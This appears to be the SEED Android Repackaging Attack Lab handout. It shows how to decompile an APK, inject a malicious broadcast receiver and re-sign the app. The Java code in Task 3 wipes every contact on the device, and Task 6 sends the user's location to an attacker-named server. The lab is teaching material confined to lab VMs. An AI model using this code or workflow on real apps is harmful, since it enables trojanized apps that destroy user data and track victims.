 .. container:: center

   Android Repackaging Attack Lab
   
******************************
Android Repackaging Attack Lab
******************************

Overview
========

Repackaging attack is a very common type of attacks on Android devices.
In such an attack, attackers modify a popular app downloaded from app
markets, reverse engineer the app, add some malicious payloads, and then
upload the modified app to app markets. Users can be easily fooled,
because it is hard to notice the difference between the modified app and
the original app. Once the modified apps are installed, the malicious
code inside can conduct attacks, usually in the background. For example,
in March 2011, it was found that DroidDream Trojan had been embedded
into more than 50 apps in Android official market and had infected many
users. DroidDream Trojan exploits vulnerabilities in Android to gain the
root access on the device.

The learning objective of this lab is for students to gain a first-hand
experience in Android repackaging attack, so they can better understand
this particular risk associated with Android systems, and be more
cautious when downloading apps to their devices, especially from those
untrusted third-party markets. In this lab, students will be asked to
conduct a simple repackaging attack on a selected app, and demonstrate
the attack only on our provided Android VM. Students should be warned
not to submit their repackaged apps to any market, or they will face
legal consequence. Nor should they run the attack on their own Android
devices, as that may cause real damages.

What makes repackaging attack easy is that Android apps’ binary code can
be easily reverse engineered, due to the lack of protection on binaries.
The left part of **Figure 1** depicts the
typical development process of Android apps, which produces a file
called APK file. This file is uploaded to app markets for others to
download. The right part of the figure shows that once attackers get the
APK file, they can use reverse engineering tools to unpack the APK file,
disassemble the program, add malicious logic, and then package
everything back to APK file (modified) again. Attackers then upload the
repackaged app to app markets, most of which do not have countermeasures
to detect whether an app is repackaged or not.

.. container:: center

   .. figure:: media/repackaging/RepackagingAttackOverview.jpg
      :alt: alternate text
      :figclass: align-center

      Figure 1: Overview of the Repackaging attack

Lab Environment.
^^^^^^^^^^^^^^^^

The lab requires two virtual machines, one is called ``SEEDAndroid``,
and the other is called ``SEEDUbuntu16.04``. As the name indicates, the
first VM is a virtual machine running Android operating system, and we
need it to test our repackaging attack. The second VM is a Ubuntu Linux
virtual machine; all the tools needed for this lab have already been
installed on this Ubuntu VM. Both VMs and their user manuals can be
downloaded from the SEED web site. These two VMs need to be connected to
the same network (we can attach the same ``"Nat Network"`` adaptor to
both VMs).


Task 1: Obtain An Android App (APK file) and Install It
=======================================================

To launch the repackaging attack, we need a host app. In real attacks,
attackers usually choose popular apps, because they can get more people
to download their repackaged apps. For this task, you can write your own
app or download an existing app. You can get APK files for Android
applications from many places, such as this web site:
https://apkpure.com/. We also provide a simple app for you to download
(the file name is ``RepackagingLab.apk``).

It should be noted that we are using an Android VM in this lab, not a
physical Android device, so some apps may not run on the VM (they will
crash). One of the possible reasons for crashing is that the application
may have native code. Native code compiled for a real Android device has
binary code for ARM processors, while our Android VM runs on x86
processors. To get these apps to run in our Android VM, the native code
needs to be recompiled for x86 processors. That requires source code,
which is hard to get. Therefore, if you have encountered this problem,
just find another app. This limitation is only caused by the lab
environment; it is not an issue for the attacks in the real world.

Let us first install the host app. We will do it using the ``adb`` tool
from the Ubuntu VM. First, we need to find the IP address of the Android
VM. This can be achieved by running the ``ifconfig`` command in the
Android Terminal app. We then run the following commands to install the
app.

::

   // Connect to the Android VM using adb
   $ adb connect <ip_address_of_android_vm>

   // Install the app
   $ adb install <application_name>.apk

Task 2: Disassemble Android App
===============================

To launch the repackaging attack on an app, we need to modify the app.
Although we can directly modify the APK file, it is not easy, because
the code in the APK file contains Dalvik bytecode (dex format), which is
not meant for human to read. We need to convert the bytecode into
something that is human readable. The most common human readable format
for Dalvik bytecode is known as Smali. The names “Smali” and “Baksmali”
are the Icelandic equivalents of “assembler” and “disassembler”,
respectively.

In this task, we will use a tool called ``APKTool`` to disassemble dex
code (``classes.dex``) to smali code. ``APKTool`` is a very powerful
reverse engineering tool for Android apps. It is useful to decode and
rebuild Android apps. We can feed the entire APK file to the tool like
the following:

::

   [backgroundcolor=]
     $ apktool d [appname].apk 

APK file is just a zip file, which contains ``classes.dex`` (compiled
java source code, called Dalvik bytecode), ``resources.arsc`` (resource
files), ``AndroidManifest.xml``, etc. ``APKTool`` basically unzips the
APK file, and decode its contents. For the resource files, not much
needs to be done. For the Dalvik bytecode ``classes.dex``, it is
disassembled into smali code, ``APKTool`` places the output files into a
created folder with a name that is the same as the name of the APK file.
The typical folder structure of APK file after disassembly is shown in
**Figure 2**. The folder contains
``XML`` resource files, ``AndroidManifest`` file, source code files,
etc. The ``XML`` resources and ``AndroidManifest`` files should be
readable and usually very close to their original forms. The
disassembled smali code is placed in the smali folder. Typically, one
smali file contains the code for one Java class.

.. figure:: media/repackaging/ApkFileStructure.jpg
   :alt: APK file structure after running ``APKTool``
   :figclass: align-center

   Figure 2: APK file structure after running ``APKTool``

What we will do next is to inject some malicious code into the smali
folder, and then assemble everything together into a new APK package.
That is why it is called Repackaging attack.

Task 3: Inject Malicious Code
=============================

In this task, we will inject malicious code into the target app’s smali
code. There are many ways to do that. One approach is to directly modify
some existing smali file, so we can add malicious logic into it. Another
approach, which is much easier, is to add a completely new component to
the app; this new component is independent from the existing app, so it
does not affect the app’s behavior. Since each independent component can
be placed in a separate smali file, using this approach, we just need to
create a new smali file.

There are four types of components in Android apps, *activity*,
*service*, *broadcast receiver*, and *content provider*. The first two
components are most commonly used by apps, while the other two are not
as common. We can add any of these components in the target app, but the
most important problem for the attack is to find a way to trigger the
malicious code without being noticed by users. Although solutions to the
problem exist for all these components, the easiest one is broadcast
receiver, which can be triggered by broadcasts sent by the system. For
example, when the system time is set, a ``TIME_SET`` broadcast will be
sent out; after the system reboots, a ``BOOT_COMPLETED`` broadcast will
be sent out. We can write a broadcast receiver that listens to one of
these broadcasts, so the malicious code will be automatically triggered
by those events.

Writing a broadcast receiver in Android is quite straightforward. If you
know how to do that, feel free to write your own code. After you have
built an APK file from your own Java code, you should run ``APKTool`` to
disassemble your APK file and obtain the smali code for your broadcast
receiver. For those who have not taken any Android programming course,
you can use our provided smali code. The Java code is described in the
following, while the smali code can be downloaded from the web site of
this lab.

.. code-block:: java

   public class MaliciousCode extends BroadcastReceiver {
     @Override
     public void onReceive(Context context, Intent intent) {
        ContentResolver contentResolver = context.getContentResolver();
        Cursor cursor = contentResolver.query 
                 (ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
       
        while (cursor.moveToNext()) {
            String lookupKey = cursor.getString                             
                 (cursor.getColumnIndex(ContactsContract.Contacts.LOOKUP_KEY));
                                       
            Uri uri = Uri.withAppendedPath 
                  (ContactsContract.Contacts.CONTENT_LOOKUP_URI, lookupKey);
            contentResolver.delete(uri, null, null);
        }
     }
   }

The above malicious code, if triggered, will delete all the contact
records from the device. The code implements a broadcast receiver, which
will be triggered by a broadcast event. Once it is triggered, it enters
the ``onReceive()`` method, and this is where we implement our malicious
logic. The code above basically interacts with the ``Contacts`` app’s
content provider, and asks the content provider to remove all its
entries, essentially wiping out all the contact records. In the code, a
``ContentResolver`` is used to access the contacts stored on the phone.
In order to get the list of contacts, a query is sent to ``Contacts``\ ’
content provider. This query does not provide any matching criterion, so
all the records are returned via a ``Cursor`` object. The code then go
through all these records and delete them one by one.

You can download the smali code of the above program from our web site,
and place it in the ``smali/com`` folder that is created by ``APKTool``.
However, we are not done yet, because we have not tell the system when
to invoke our broadcast receiver. We have to register our broadcast
receiver to the system. This is done by adding some information to the
target app’s ``AndroidManifest.xml`` file, which can also be found from
the folder created by ``APKTool``. Moreover, in order to read from and
write to ``Contacts``\ ’ content provider, an app needs to declare two
corresponding permissions in ``AndroidManifest.xml``. The following
shows what needs to be added to the manifest file.

::

   <manifest...>
     ...
     <uses-permission android:name="android.permission.READ_CONTACTS" />  (*@\ding{192}@*)
     <uses-permission android:name="android.permission.WRITE_CONTACTS" /> (*@\ding{193}@*)
     ....

     <application>
         .....
         .....
         <receiver android:name="com.MaliciousCode" >
             <intent-filter>
                <action android:name="android.intent.action.TIME_SET" />  (*@\ding{194}@*)
             </intent-filter>
         </receiver>
     </application>

   </manifest>

In the above manifest file, we add two permissions to allow the app to
read from and write to ``Contacts``\ ’ content provider (Lines  and ).
It should be noted that these permissions are added outside of the
``<application>`` block, but within the ``<manifest>`` block. In the
file, we also register our broadcast receiver to the ``TIME_SET``
broadcast event (Line ), so our code can be triggered every time we
change the time on the phone. The registration should be added inside
the ``<application>`` block, not inside the ``<activity>`` block. The
application that you downloaded from app markets may have a large
``AndroidManifest.xml`` file; you should carefully modify the file and
place the injected contents in the right place.

Task 4: Repack Android App with Malicious Code
==============================================

After we have inserted your own malicious smali code, we are ready to
reassemble everything together, and build a single APK file. The process
takes two steps.

Step 1: Rebuild APK
^^^^^^^^^^^^^^^^^^^

We use ``APKTool`` again to generate a new APK file. The command is
shown in the following. By default, the new APK file will be saved in
the ``“dist”`` directory.

::

   [backgroundcolor=]
     $ apktool b [application_folder] 

Step 2: Sign the APK file
^^^^^^^^^^^^^^^^^^^^^^^^^

Android requires all apps to be digitally signed before they can be
installed. This requires each APK to have a digital signature and a
public key certificate. The certificate and the signature helps Android
to identify the author of an app. From the security perspective, the
certificate needs to be signed by a certificate authority, who, before
signing, needs to verify that the identify stored inside the certificate
is indeed authentic. Getting a certificate from an accepted certificate
authority is usually not free, so Android allows developers to sign
their certificates using their own private key, i.e., the certificate is
self signed. The purpose of such self-signed certificates is meant for
apps to be able to run on Android devices, not for security. Developers
can put any name they want in the certificate, regardless of whether the
name is legally owned by others or not, because no certificate authority
is involved to check that. Obviously, this entirely defeats the purpose
of certificate and signature. Google Play Store does some name
verification before accepting an app, but other third-party app markets
do not always conduct such a verification. In this lab, we will just use
a self-signed certificate. The entire process consists of two steps.

#. Step 1: Generate a public and private key pair using the ``keytool``
   command:

   ::

      [backgroundcolor=]
        $ keytool -alias <alias_name> -genkey -v -keystore mykey.keystore

   The tool will prompt users for a password, which is used to protect
   the keystore; it also asks users to provide some additional
   information for the key. It then generates a public/private key pair,
   and store that in a keystore file ``mykey.keystore`` (specified at
   the command line). The keystore can store multiple keys, each
   identified by an alias name (specified in the command), which is the
   name that we will use later when signing your app.

#. Step 2: We can now use ``jarsigner`` to sign the APK file using the
   key generated in the previous step. We can do it using the following
   command.

   ::

      [backgroundcolor=]
        $ jarsigner -keystore mykey.keystore app_name.apk <alias_name>

   The command ``jarsigner`` prompts the user to enter the password,
   which is needed for accessing the keystore. It then use the key
   (identified by the alias name) to sign the APK file.

Task 5: Install the Repackaged App and Trigger the Malicious Code
=================================================================

In this final step, we will install the modified app on our Android VM,
and test whether the attack is successful or not. If we have already
installed the app before, we need to go to Android VM and uninstall the
app first; otherwise, we will not be able to install the repackaged app,
because of the signature mismatch. The instructions for installation are
the same as those in Task 1.

Before demonstrating the attack, we need to give our application
permission to access contacts. In a real world scenario, applications
usually ask users for permission. Permissions for photos, contacts,
location etc. are very commonly asked for.

::

   [backgroundcolor=]
     Settings -> Apps -> Repackaging Lab -> Permissions -> toggle contacts on

To demonstrate whether the attack works, we just need to run the
application once, add a few contacts in the ``Contacts`` app and change
the time on the android VM. If your attack is successful, you should see
that all the contact records that you just entered are deleted. To
change the time, do the following:

::

   [backgroundcolor=]
     Settings -> Date and Time -> Set time

Common problems.
^^^^^^^^^^^^^^^^

We need to run the installed repackaged application once to register the
receiver. Otherwise, the injected code will not be executed.

Task 6: Using Repackaging Attack to Track Victim’s Location
===========================================================

In this task, we will perform another repackaging attack where the
malicious code will steal the location information from a user’s phone,
essentially tracking the user’s movement.

Step 1. Setting up mock locations.
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

On an Android device, we can get the location information from its GPS
hardware. However, our Android VM does not have such hardware, but
Android OS does allow us to provide mock locations to applications. All
we need to do is to write a mock location app, and then configure the
Android OS to get locations from this app, instead of a real GPS
hardware. We have already installed such an app in the Android VM. This
app can simulate location traces in six different cities. Simply select
a city from the app.

Step 2: Configuring DNS.
^^^^^^^^^^^^^^^^^^^^^^^^

The malicious code in the repackaged app will send out the victim’s
coordinates to the attacker’s server at
`www.repackagingattacklab.com <www.repackagingattacklab.com>`__. We are
going to use the SEEDUbuntu VM to host this server. Therefore, we need
to map the hostname to the Ubuntu VM’s IP address. The easiest way to
set this up is to add a line to the file on the Android VM. We can use a
text editor tool (such as ``vi`` or some editor app) to directly modify
the file on Android.

::

   // Run the following commands on the Android VM
   $ su root
   # vi /system/etc/hosts

     Add the following entry to the end of hosts
     (*@\textbf{IP\_Address  www.repackagingattacklab.com}@*)

     where IP_Address is the IP address of the Ubuntu VM 

If you are not familiar with the editing tool on Android, you can copy
the file to the Ubuntu VM, makes changes in Ubuntu, and then copy the
file back to Android. The following commands are for this latter
approach.

::

   // Run the following commands on the Ubuntu VM
   // Assume Android VM's IP is: 10.0.2.9

   // Get the Ubuntu VM's IP address 
   $ ifconfig

   // Start the adb daemon with root privilege 
   $ adb root 

   // Connect to the Android VM
   $ adb connect 10.0.2.9 

   // Download the hosts file from the Android VM
   $ adb pull /system/etc/hosts

   // Modify the downloaded hosts file on Ubuntu VM
   $ gedit ./hosts  (or use your own favorite text editor)

     Add the following entry to the end of hosts
     IP_Address  www.repackagingattacklab.com

     where IP_Address is the IP address of the Ubuntu VM 

   // Upload the hosts file back to the Android VM
   $ adb push ./hosts /system/etc/hosts

Step 3: Repackaging and installing the victim app.
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

We will follow the instructions in Tasks 1 to 5 to conduct the
repackaging. We will even use the same host app. The only difference is
that we are going to use a new set of smali code, which can be
downloaded from our website. There are three smali files:
``MaliciousCode.smali``, ``SendData$1.smali``, and ``SendData.smali``.
Place them in the folder of the unpacked application.

We also have to modify the ``AndroidManifest.xml``, because the
malicious code requires different permissions than the one used in Tasks
1 to 5. We need three permissions related to location and one for
Internet access.

::

   <manifest...>
     ...
     <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/> 
     <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/> 
     <uses-permission android:name="android.permission.ACCESS_MOCK_LOCATION" /> 
     <uses-permission android:name="android.permission.INTERNET"/>
     ....

     <application>
         .....
         .....
         <receiver android:name="com.mobiseed.repackaging.MaliciousCode" >
             <intent-filter>
                 <action android:name="android.intent.action.TIME_SET" />
             </intent-filter>
         </receiver>
     </application>

   </manifest>

Step 4: Enabling the permission on the Android VM.
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Adding location permissions to the manifest file is not enough. When an
app is installed via a store app, such as the Play store, users will be
asked whether they will grant those location permissions to the app. If
users approve, the Play store will tell the system that the permissions
are granted. Since we install our app via the ``adb`` tool, which does
not prompt us for approvals; nor will it automatically enable these
permissions for the app. Therefore, we have to do it manually. Follow
the steps below to allow location access. It should be noted that on a
real phone, users do not need to perform this step manually.

::

   [backgroundcolor=]
     Settings -> Apps -> Repackaging Lab -> Permissions -> toggle location on

Step 5: Triggering the attacking code.
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Now we are ready to see the attack work. Run the mock location
application and choose a location, then change the time on your Android
VM. To change time, click the following sequence:

::

   [backgroundcolor=]
     Settings -> date and time -> set time 

Step 6: Tracking the victim.
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Once the malicious code is triggered, we can go back to our Ubuntu VM,
load http://www.repackagingattacklab.com into our Firefox browser. If
your attack is successful, you should be able to track the victim of the
Android VM. You can go to the mock location app to change to a different
city, and see whether your malicious code can correctly track the
victim’s movement. Please describe your observations.

Submission and Demonstration
============================

You need to submit a detailed lab report to describe what you have done
and what you have observed, including screenshots and code snippets (if
needed). You also need to provide explanation to the observations that
are interesting or surprising. You are encouraged to pursue further
investigation, beyond what is required by the lab description.
